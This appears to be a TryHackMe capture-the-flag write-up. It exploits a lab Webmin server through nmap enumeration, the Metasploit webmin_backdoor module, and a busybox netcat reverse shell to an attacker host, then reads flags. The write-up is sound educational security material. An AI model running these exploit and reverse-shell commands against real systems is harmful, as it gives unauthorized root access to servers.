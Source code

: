 ```yaml
---
title: "Source"
date: 2025-01-25
image: /assets/img/tryhackme/Source/Source_image.jpg
description: Writeup of the TryHackMe-CTF Source
categories: [Tryhackme, Easy]
tags: [linux, webmin, exploit, metasploit]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Source</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/source">https://tryhackme.com/r/room/source</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Source.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:23 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  10000/tcp open  snet-sensor-mgmt

  Nmap done: 1 IP address (1 host up) scanned in 35.07 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,10000 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:24 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.035s latency).

  PORT      STATE SERVICE VERSION
  22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
  |   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
  |_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
  10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 36.59 seconds
```
From here I proceeded the analysis with port 10000.

## Port 10000 Analysis
When I first accessed the website I got the following error:

![Error](/assets/img/tryhackme/Source/thm_source_1.jpg){: width="1016" height="103"}

I added the domain name in the `etc/hosts` file and a Webmin portal was presented:

![Webmin](/assets/img/tryhackme/Source/thm_source_2.jpg){: width="318" height="354"}

After some inital enumeration I serarched for an exploit and found an <a href="https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search">attackerkb</a> entry. In the last comment stands something about metasploit.

```bash
msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .
```
The backdoor exploit sounds great, so I loaded the `Webmin password_change.cgi Backdoor`:
```bash
msf6 > use exploit/linux/http/webmin_backdoor
msf6 exploit(linux/http/webmin_backdoor) > set lhost 10.21.63.26
  lhost => [attacker ip]
msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.117.181
  rhosts => 10.10.117.181
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
  [!] Changing the SSL option's value may require changing RPORT!
  ssl => true
msf6 exploit(linux/http/webmin_backdoor) > exploit

  [*] Started reverse TCP handler on 10.21.63.26:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target is vulnerable.
  [*] Configuring Automatic (Unix In-Memory) target
  [*] Sending cmd/unix/reverse_perl command payload
  [*] Command shell session 1 opened (10.21.63.26:4444 -> 10.10.117.181:48376) at 2025-01-25 08:43:09 -0500
  
  whoami
  root
  busybox nc [attacker ip] 9001 -e sh 
```
I wasn't able to change the directory from the shell so I started a reverse shell using `busybox`:
```bash
cd /root
	cat root.txt
	THM{*** removed ***}
cd /home
ls
	dark
cd dark
cat user.txt
	THM{*** removed ***}
```

solved! :)
